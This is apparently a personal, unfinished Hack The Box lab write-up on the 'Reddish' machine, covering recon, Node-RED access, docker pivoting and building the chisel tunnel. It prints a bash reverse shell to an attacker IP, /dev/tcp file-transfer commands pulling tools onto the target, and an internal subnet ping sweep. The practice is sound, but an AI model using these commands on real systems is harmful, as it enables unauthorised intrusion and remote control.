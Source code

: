 # Reddish
Name: Reddish
Date:  24/08/2022
Difficulty:  Insane
Goals:  To practice:
- different ways pivot 
- Linux related machines 
- not done one recently 
- database hacking
Learnt:
1. I need to try switching more Web Requests
2. TCP reply not listen back on shell...
3. cat file transfer
4. /dev/shm directory
5. Manual(Heard but not tried till now) Go Programs by using ldflags and upx packing from 10Mb to 3Mb!

## Recon

![ping](HackTheBox/Retired-Machines/Reddish/Screenshots/ping.png)

I want to note some of the differences to mine and Ippsec's more efficient Recon, although its is a scripted video it is still someone else approach to Web Hacking to assimilate to my own.


Firstly Icons favicons, in the Haddix Bug Bounty Hunter Methodology and on serveral podcast Haddix mentions a friend whom had a expertise in favicon abuse. 

From the icon, reverse image searches - a reason to use google more then identifies the RedNode Application.

I feroxbuster and then tried the /red/about directory and got this post request :
This is such a weird request to me

![](weirdtokenrequest.png)

to get the About.html, grepping for `red`
![](greppingtheabout.png)`

Reveal node-red...

I still think the favicon is cooler, but I a happy that I am improving my searching or dorking ability somewhat as I have be worrying I am too meticulious or no where near enough to get anywhere. **BUT**

I would have notice the key, but not found it.. I know 

![posting](ippsecposts.png)

`ab68fb463e681b499d99226ce92e12e9`

DAY 2 returned it generate a new `b1a51218f30da47d4f45b52972804d1a`

[Node-RED](https://nodered.org/about/)is a program tools visually displaying and interactable function of a program in chart


![](no-exploits.png)

This section was a real hammer home of the, how can I achieve my objective with what is in front of me. I think I have been concern about learning about and I will endeavour to try more boxes like this, I remember there is some proving ground boxes that are more like this.

![nodered](NODE-red.png)

TCP reply to!

![shell](shell.png)


`bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'`

Even though I like ncat and netcat, I am glad to finally be prompted to use it as a file transfer mechanism instead of other tools. Similar to trying out powercat it felt fun, but also gratting a tad as I always see it on Enumeration Script scans after I run it.. but I don't check its there before file transfering.


WOW on the cat file transfer, I have not seen this on any OSCP cheatsheets!
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

LinEnum finds Docker
![docker](weareindocker.png)

Although it is not mentioned a good thing to then check with Docker would be IP address as it is may have its own routing configuration to the host box.
![docker](dockerips.png)


```bash
for ip in $(seq 1 5); do
	ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"
	done
```
Oneliner
``
`for ip in $(seq 1 5); do ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`
`for ip in $(seq 1 5); do ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`

$1 = Gateway
try 2!
$3 = possibly other containers


```bash
cd /tmp
git clone https://github.com/jpillora/chisel.git
# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w"
upx brute chisel
ncat -lvp 80 < chisel
bash -c "cat < /dev/tcp/$IP/$Port > /tmp/chisel"
```

Ran into a lib missing error, trying this soon
```
go env GOOS GOARCH # current system as target
go tool dist list
GOOS=<os> GOARCH=<arch> go build
```

30:00
https://www.youtube.com/watch?v=Yp4oxoQIBAM

## Exploit

## Foothold

## PrivEsc

      
